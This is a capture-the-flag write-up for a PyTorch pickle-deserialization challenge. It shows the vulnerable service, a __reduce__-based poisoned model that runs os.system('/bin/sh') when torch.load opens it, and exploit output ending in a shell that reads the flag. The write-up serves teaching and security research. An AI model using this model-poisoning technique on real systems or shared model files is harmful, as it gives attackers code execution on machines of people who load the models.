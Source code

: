 # MemeControl
#### Category: pwn

Description:
> Author: hfs
> TODO:
>
>
> flag: midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}

**Tags:** Python, PyTorch, Pickle Deserialization, Midnight Sun CTF

## Takeaways

Importing/Loading wild ML models can result in arbitrary code execution.

## Challenge

In this challenge we are given a piece of python code that expects a base64 encoded ML model, loads it and evaluates it. The evaluation in itself is not that interesting but PyTorch is well known to be insecure when loading model from the wilderness.

As stated in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load):


> **Warning**:
> `torch.load()` unless *weights_only* parameter is set to *True*, uses `pickle module` implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. **Only load data you trust**

We can immediately recognize that the program is vulnerable to such an attack. In order to get remote code execution we just need to pop a shell during the unpickling. Perhaps by crafting it so that it executes `os.system('/bin/sh')`.

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

## Solution
Credits where they are due, we base our approach on the [patch-torch-save](https://github.com/yk/patch-torch-save) repo from `yk` that shows how to *poison* an existing model. And modify it to our needs.

A model in itself is simply a dictionary, since we want to limit our payload as much as possible, and the actual usability of the model is of no concern, we define our model an plain dictionary. But an attacker could always use a legit large model. 

```python
super_ml_model: dict = {
    "Z":"T",
    "0":"T"
}
```

We define a `dict` subclass with a custom `__reduce__` function which will be called when the dict object will be pickled by `torch.save()`. 

`__reduce__` takes as a parameter a callable object that will be called to create the initial version of the object. In our case we chose to simple use `exec` to execute any arbitrary code. Since there are no checks our malicious code is as simple as it gets, the good ol' `os.system('/bin/sh')`.


```python
class BadDict(dict):

    def __init__(self, inject_src: str, **kwargs):
        super().__init__(**kwargs)
        self._inject_src = inject_src

    def __reduce__(self):
        return exec, (f'''{self._inject_src}''',), None, None, iter(self.items())

malicious_code = \
"""
import os
print("Hello from the other side! Popping a shell...")
os.system('/bin/sh')
"""

malicious_dict = BadDict(malicious_code, **super_ml_model)
torch.save(malicious_dict, "memecontrol.pth")
```

And we are all set! Now when the model will be unpickled using `torch.load()`, the malicious code will be executed. And we can simply cat the flag file.

```python
In [1]: import torch
In [2]: torch.load('./memecontrol.pth')
Hello from the other side! Popping a shell...
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```

## Final Exploit
`exploit.py` uses pwntools to automate the exploit both locally and remotely. Assuming you have all the required packages you can test the exploit locally with:
```bash
$ python3 exploit.py LOCAL

[*] Exporting malicious model. Code to be executed:
    import os
    print("Hello from the other side! Popping a shell...")
    os.system('/bin/sh')
[+] Starting local process '/home/ctfbox/.pyenv/shims/python3': pid 39565

8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 

Send the base64 encoded model: 
[*] Pushing payload: UEsDBAAACAgAAAAAAAAAAAAAAAAAAAAA...
[+] Evaluating the model ...
    Hello from the other side! Popping a shell...
[*] Switching to interactive mode
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```



